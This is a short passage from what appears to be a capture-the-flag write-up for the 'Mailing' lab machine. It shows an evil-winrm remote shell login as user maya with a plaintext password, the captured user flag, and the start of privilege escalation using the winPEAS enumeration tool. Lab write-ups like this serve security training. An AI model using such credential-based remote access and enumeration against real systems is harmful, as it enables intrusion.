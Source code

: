 ```shell
$ evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri            

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> whoami
mailing\maya
```

Get the flag

```shell
*Evil-WinRM* PS C:\Users\maya\desktop> type user.txt
2fa1a39d74f4299226bba00a57d36822
```

## Privilege Escalation

Transfer `winPEASany` and execute it.

We see some installed programs.

![](../assets/Pasted%20image%2020250514204619.png)

Reading the files, the version is `7.4`.

![](../assets/Pasted%20image%2020250514204926.png)
